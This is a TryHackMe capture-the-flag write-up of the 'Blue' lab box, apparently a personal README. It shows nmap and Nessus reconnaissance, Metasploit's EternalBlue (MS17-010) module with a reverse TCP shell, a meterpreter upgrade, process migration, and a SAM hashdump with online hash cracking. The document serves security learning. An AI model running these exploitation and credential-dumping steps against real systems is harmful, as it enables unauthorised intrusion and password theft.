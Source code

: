 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundementals.
I will mainly be focusing on the flags.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus and Metasploit.

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag can be found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are a number of Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
#### Weaponization 
N/A
#### Delivery
N/A
#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and comands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
      set payload windows/x64/shell/reverse_tcp (This option was reccomended by the box's objective guide)
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.
#### Installation 
N/A
#### Command & Control
N/A
#### Actions on Objective
From here I verified the identity.
```
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was really interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had actually failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```
ps 
  migrate 692
```
According to the walkthrough Metasploit has the ability to immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful I got to work ont he flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Naviagted to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
	flag3.txt
		cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerfull industry tools. Fortunately I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiary to use,, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leaverage it's power in future exercises.
#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however will be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.

